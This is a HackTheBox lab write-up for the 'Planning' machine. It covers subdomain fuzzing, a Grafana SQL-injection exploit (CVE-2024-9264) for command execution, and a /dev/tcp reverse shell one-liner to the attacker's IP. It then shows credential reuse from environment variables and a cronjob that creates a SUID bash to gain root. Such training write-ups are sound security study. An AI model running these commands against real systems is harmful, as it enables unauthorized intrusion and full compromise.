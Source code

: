 ```yaml
---
title: "HackTheBox - Planning"
author: Nasrallah
description: ""
date: 2025-10-01 07:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, web, ssh, tunneling, cronjobs, cve, sqli, rce]
img_path: /assets/img/hackthebox/machines/planning
image:
    path: planning.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

[Planning](https://app.hackthebox.com/machines/planning) is an easy difficulty Linux machine that features web enumeration, subdomain fuzzing, and exploitation of a vulnerable `Grafana` instance to [CVE-2024-9264](https://nvd.nist.gov/vuln/detail/CVE-2024-9264). After gaining initial access to a Docker container, an exposed password enables lateral movement to the host system due to password reuse. Finally, a custom cron management application with `root` privileges can be leveraged to achieve full system compromise.

Credentials provided for the box: `admin / 0D5oT70Fq13EvB5r`

## **Enumeration**

### nmap

We start an Nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.23.1                                                               
Host is up (0.52s latency).                                                                    
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION                                                                   
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                                 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)                 
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.14 seconds
```

We have ssh on port 22 and nginx http serve on port 80 redirecting to the domain planning.htb, let's add that to /etc/hosts file.

### Web

Let's check the website on port 80.

![website](1.png)

Nothing looks interesting in the website. I'll run a subdomain scan using ffuf.

```terminal
ffufnames planning.htb -ac                                                            
                                                                                               
        /'___\  /'___\           /'___\                                                        
       /\ \__/ /\ \__/  __  __  /\ \__/                                                        
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                       
         \ \_\   \ \_\  \ \____/  \ \_\                                                        
          \/_/    \/_/   \/___/    \/_/                                                        
                                                                                               
       v2.1.0-dev                              
________________________________________________                                               
                                                                                               
 :: Method           : GET                                                                     
 :: URL              : http://planning.htb                                                     
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/namelist.txt                    
 :: Header           : Host: FUZZ.planning.htb 
 :: Follow redirects : false                                                                   
 :: Calibration      : true                                                                    
 :: Timeout          : 10                                                                      
 :: Threads          : 40                                                                      
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500                                                                                                                   
________________________________________________                                               
                                                                                               
grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 119ms]
```

Found `grafana`, I'll add that to my hosts file and navigate to it.

![grafana](2.png)

We got the login page of grafana, here we can use the credentials provided with the box to login.

![login](3.png)

## **Foothold**

The version of grafana is 11.0.0, searching that on google I found it vulnerable to SQL Injection that leads to file read and/or command execution [CVE-2024-9264](https://nvd.nist.gov/vuln/detail/CVE-2024-9264).

I'll use this [exploit](https://github.com/nollium/CVE-2024-9264) to get command execution.

```terminal
[★]$ python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r http://grafana.planning.htb/ -c 'id'                                                 
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: id
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('id >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
uid=0(root) gid=0(root) groups=0(root)
```

For a reverse shell, I'll use the following command.

```bash
python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r http://grafana.planning.htb/ -c 'bash -c "bash -i >& /dev/tcp/10.10.16.33/9001 0>&1"'
```

![revshell](4.png)

## **Privilege Escalation**

Checking the environment variable we find the password of user enzo.

```bash
root@7ce659d667d7:~/conf# env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
[SNIP]
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
[SNIP]
```

We can use the password to ssh as user enzo.

```terminal
[★]$ ssh enzo@planning.htb 
enzo@planning.htb's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)
[SNIP]
Last login: Tue Sep 30 11:06:24 2025 from 10.10.16.50
enzo@planning:~$ id
uid=1000(enzo) gid=1000(enzo) groups=1000(enzo)
```

Checking open ports using nestat we find port 8000 listening locally.

```terminal
enzo@planning:~$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:37729         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.54:53           0.0.0.0:*                           -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -   
```

Let's forward the port using ssh.

```terminal
ssh enzo@planning.htb -L 8000:127.0.0.1:8000
```

Now let's navigate to `127.0.0.1:8000`

![auth](5.png)

We got a prompt to authenticate, I tried the credentials we found so far but nothing worked.

Digging into the system I found a file at `/opt/crontabs/crontab.db` with credentials inside it.

```json
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

I managed to login with `root:P4ssw0rdS0pRi0T3c`

![loggedin](6.png)

In this site we can create cronjob.

I'll create a cronjob that makes a copy of bash and give it SUID permissions.

```terminal
cp /bin/bash /tmp/bash && chmod +s /tmp/bash
```

![suid](7.png)

I'll save the cronjob and click run now to execute it and then check the /tmp directory.

![root](8.png)

The binary was created successfully, we run `/tmp/bash -p` to get a root shell.

## **References**

<https://nvd.nist.gov/vuln/detail/CVE-2024-9264>

<https://github.com/nollium/CVE-2024-9264>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

